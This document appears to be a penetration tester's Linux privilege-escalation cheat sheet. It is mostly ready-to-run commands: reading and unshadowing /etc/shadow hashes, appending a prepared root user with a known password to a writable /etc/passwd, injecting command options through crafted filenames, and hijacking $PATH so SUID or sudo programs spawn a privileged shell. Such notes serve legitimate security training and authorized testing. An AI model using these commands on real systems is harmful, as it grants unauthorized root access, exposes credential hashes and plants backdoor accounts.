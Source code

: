 ## Possible escalation vectors in programs
- https://gtfobins.github.io/

## Compiling exploits and tools
- Use this to compile exploits and tools if no specific instructions provided:
```bash
gcc <file> -o <output_file> # add -fPIC for 64-bit machines
g++ <file> -o <output_file>
```
- If a target machine doesn't have required tools to compile an exploit cross-compile it on Kali _(add `-m32` option for 32-bit machines)_.

## Readable /etc/shadow exploit
- Just read the hash.
- Or use `unshadow` _(on target or personal machine)_:
```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

## Writable /etc/passwd or /etc/shadow exploit
- Create a password:
```bash
openssl passwd -1 -salt <salt_like_username> <password>
```
- Or use this prepared user:
```bash
echo "new:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" >> /etc/passwd
```
- Switch to the new user:
```bash
su new # password:123
```

## Exploiting wildcards
- Check options for the command that uses the wildcard: https://gtfobins.github.io/gtfobins/
- Create files in the current directory with filenames as options:
```bash
touch ./--<command_option>
```

## Modifying `$PATH` for SUID/SUDO programs
- Make alternative command which runs privileged bash:
```bash
echo "/bin/bash -p" > /tmp/<command>
chmod +x /tmp/<command>
```
- Modify `$PATH`:
```bash
export PATH=/tmp:$PATH # To start searching for the <command> in /tmp first
```
- Or run program and pass `$PATH` to it _(this may also work for `sudo` commands with no secure_path set)_:
```bash
PATH=/tmp:$PATH <program_name>
```
